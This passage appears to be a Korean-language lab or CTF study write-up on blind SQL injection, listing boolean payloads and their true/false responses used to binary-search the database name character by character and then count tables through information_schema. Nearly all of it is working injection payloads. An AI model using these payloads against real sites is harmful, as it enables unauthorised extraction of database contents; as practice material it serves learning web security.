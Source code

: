 
---

1. **normaltic' and (ascii(substr((select database()), 9, 1)) > 64) #**
-> O  
1. **normaltic' and (ascii(substr((select database()), 9, 1)) > 96) #**
-> O  
1. **normaltic' and (ascii(substr((select database()), 9, 1)) > 112) #**
-> X  
1. **normaltic' and (ascii(substr((select database()), 9, 1)) > 104) #**
-> O  
1. **normaltic' and (ascii(substr((select database()), 9, 1)) > 108) #**
-> X  
1. **normaltic' and (ascii(substr((select database()), 9, 1)) > 106) #**
-> X  
1. **normaltic' and (ascii(substr((select database()), 9, 1)) > 105) #**
-> X  
1. **normaltic' and (ascii(substr((select database()), 9, 1)) = 105) #**
-> O  
-> 찾은 글자: bxi xdx qxi  
-> 예측한 글자: blind sqli -> s가 대문자일 수도 있어  

---

1. **normaltic' and (ascii(substr((select database()), 6, 1)) > 64) #**
-> O  
1. **normaltic' and (ascii(substr((select database()), 6, 1)) > 96) #**
-> X  
1. **normaltic' and (ascii(substr((select database()), 6, 1)) > 80) #**
-> O  
1. **normaltic' and (ascii(substr((select database()), 6, 1)) > 88) #**
-> X  
1. **normaltic' and (ascii(substr((select database()), 6, 1)) > 84) #**
-> X  
1. **normaltic' and (ascii(substr((select database()), 6, 1)) > 82) #**
-> O  
1. **normaltic' and (ascii(substr((select database()), 6, 1)) > 83) #**
-> X  
1. **normaltic' and (ascii(substr((select database()), 6, 1)) = 83) #**
-> O  
-> 찾은 글자: bxixdSqxi  
-> 예측한 글자: blindSqli  

## 3. TABLE
### 3.1. 개수 확인
* `COUNT(expression)`: select문의 결과 row 개수를 반환한다.

---

1. **normaltic' and ((select count(table_name) from information_schema.tables where table_schema = 'blindSqli') < 5) #**
-> O  
1. **normaltic' and ((select count(table_name) from information_schema.tables where table_schema = 'blindSqli') < 3) #**
-> X  
1. **normaltic' and ((select count(table_name) from information_schema.tables where table_schema = 'blindSqli') < 4) #**
-> O  
-> 3개  
